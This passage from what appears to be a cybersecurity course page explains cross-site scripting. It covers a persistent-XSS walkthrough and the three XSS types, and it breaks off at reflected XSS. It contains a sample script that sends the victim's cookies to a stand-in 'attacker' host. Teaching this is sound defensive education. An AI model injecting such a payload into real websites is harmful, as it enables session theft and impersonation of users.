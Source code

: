 **An example attack scenario**

In this example, we will assume that the attacker's ultimate goal is to steal the victim's cookies by exploiting an XSS vulnerability on the website. This can be done by having the victim's browser parse the following HTML code:

```html
<script>

window.location='http://attacker/?cookie='+document.cookie

</script>
```

This script navigates the user's browser to a different URL, which triggers an HTTP request to the attacker's server. The URL includes the victim's cookies as a query parameter, which the attacker can extract from the request when it reaches his server. Once the attacker has acquired the cookies, he can use them to impersonate the victim and launch further attacks.

From now on, the above HTML code will be referred to as **malicious string** or **malicious script.** It is important to note that the string itself is only malicious if it is eventually parsed as HTML in the victim's browser, which can only occur as a result of an XSS vulnerability on the website.

## How the attack works

The following diagram illustrates how an attacker can perform this example attack:

![XSS2](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/xss2.png?raw=true)

1. The attacker uses one of the website's forms to insert a malicious string into the website's database.
2. The victim requests a page from the website.
3. The website includes the malicious string from the database in the response and sends it to the victim.
4. The victim's browser executes the malicious script within the response and sends the victim's cookies to the attacker's server.

## Types of XSS

While the goal of an XSS attack is always to execute malicious JavaScript in the victim's browser, there are a few fundamentally different ways to achieve that goal. XSS attacks are usually divided into three types:

- **Persistent XSS**, where the malicious string originates in the website database.
- **Reflected XSS**, where the malicious string originates from the victim's request.
- **DOM-based XSS**, where the vulnerability is in the client-side code instead of the server-side code.

> 💡 The previous example illustrated a persistent XSS attack. We will now describe the other two types of XSS attacks: reflected XSS and DOM-based XSS.

### Reflected XSS

In a reflected XSS attack, the malicious string is part of the victim's request to the website. The website then includes this malicious string in the response sent to the user. The following diagram illustrates this scenario:
